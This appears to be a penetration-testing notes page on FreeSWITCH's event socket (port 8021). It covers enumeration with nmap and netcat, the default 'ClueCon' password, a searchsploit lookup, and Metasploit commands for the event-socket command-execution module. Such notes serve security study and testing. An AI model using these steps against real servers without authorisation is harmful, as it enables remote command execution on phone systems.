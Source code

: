 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# FreeSWITCH (8021)

## 101

`FreeSWITCH` is an open-source VoIP platform commonly used for PBX systems, SIP trunking, and conferencing services. The `mod_event_socket` module in FreeSWITCH opens a TCP socket—typically on port `8021`—which allows external applications to communicate with the switch using a command/response protocol.

This interface should **never be exposed externally** without robust access controls. If an attacker guesses or knows the `event_socket_password`—which defaults to `ClueCon` in many installations—they can authenticate and issue commands to the FreeSWITCH server. With successful authentication, an attacker could list and manage calls, inject audio or messages, execute arbitrary dial plans, and potentially escalate privileges further depending on the system's configuration.

## Enumeration

```bash
# TCP scan with nmap
PORT     STATE SERVICE       VERSION

8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket

# Manual service probbing
$ nc -nv 192.168.244.151 8021
(UNKNOWN) [192.168.244.151] 8021 (zope-ftp) open
Content-Type: auth/request
...
Content-Type: text/disconnect-notice
Content-Length: 67

Disconnected, goodbye.
See you at ClueCon! http://www.cluecon.com/
```

Upon probing with `nc`, the connection to the port succeeds and returns the message: `Content-Type: auth/request`, indicating that `FreeSWITCH` is prompting for a password. Authentication is usually performed using the command `auth <password>`. If the password is correct, the server responds with `Content-Type: command/reply Reply-Text: +OK accepted`.

## Attacks

```bash
# Check default credentials
$ creds search freeswitch
+------------+----------+----------+
| Product    | username | password |
+------------+----------+----------+
| freeswitch | <blank>  | ClueCon  |
+------------+----------+----------+

# Check public exploits
$ searchsploit freeswitch
...
FreeSWITCH - Event Socket Command Execution (Metasploit)                  
| multiple/remote/47698.rb
```

A [Metasploit module](https://www.rapid7.com/db/modules/exploit/multi/misc/freeswitch_event_socket_cmd_exec/) exists for the above RCE vulnerability:

```bash
msf > use exploit/multi/misc/freeswitch_event_socket_cmd_exec
msf exploit(freeswitch_event_socket_cmd_exec) > show targets
msf exploit(freeswitch_event_socket_cmd_exec) > set TARGET <target-id>
msf exploit(freeswitch_event_socket_cmd_exec) > show options
msf exploit(freeswitch_event_socket_cmd_exec) > exploit
```
